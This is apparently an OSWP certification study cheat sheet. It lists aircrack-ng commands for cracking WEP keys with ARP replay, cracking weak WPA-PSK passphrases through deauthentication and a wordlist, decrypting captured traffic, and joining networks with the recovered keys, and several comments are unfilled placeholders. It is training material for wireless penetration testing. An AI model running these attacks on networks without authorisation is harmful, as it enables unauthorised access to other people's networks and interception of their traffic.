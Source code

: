 ## # OSWP
*Description:*


## Cracking WEP (p74)
*Description:*

```bash
airmon-ng start wlan0        # Enables monitor mode on wlan0, creating mon0 for packet capture
airodump-ng mon0             # Scans for nearby wireless networks and displays their info (SSID, BSSID, channel, encryption)
airodump-ng -c [channel] --bssid [target MAC] -w wepcrack mon0  # Locks onto a specific channel and BSSID, saving captured packets to wepcrack-01.cap
aireplay-ng -3 -b [target MAC] -h [your MAC] mon0  # Launches ARP replay attack to generate traffic and increase IV capture rate
aircrack-ng wepcrack-01.cap  # Attempts to crack the WEP key using the captured packets in the .cap file


```
## Cracking WPA-PSK Weak Passphrase (p85)
*Description:*

```bash
airmon-ng start wlan0  # [Explain this command]
airodump-ng mon0  # [Explain this command]
airodump-ng --bssid [target MAC] -c [channel] -w wpacrack mon0  # [Explain this command]
aireplay-ng --deauth 10 -a [target MAC] -c [client MAC] mon0  # [Explain this command]
aircrack-ng -w /path/to/wordlist.txt -b [target MAC] wpacrack-01.cap  # [Explain this command]

```
## Decrypting WEP and WPA Packets (p94)
*Description:*

# WEP
airdecap-ng -w [WEP key] wepcrack-01.cap
# WPA
airdecap-ng -e [ESSID] -p [passphrase] wpacrack-01.cap

## Connecting to WEP Network (p96)
*Description:*

```bash
ifconfig wlan0 down  # [Explain this command]
iwconfig wlan0 essid [network name]
iwconfig wlan0 key s:[WEP key]
ifconfig wlan0 up  # [Explain this command]
dhclient wlan0

```
## Connecting to WPA Network (p97)
*Description:*

```bash
wpa_passphrase [network name] [passphrase] > wpa.conf  # [Explain this command]
wpa_supplicant -B -Dwext -i wlan0 -c wpa.conf  # [Explain this command]
dhclient wlan0
```
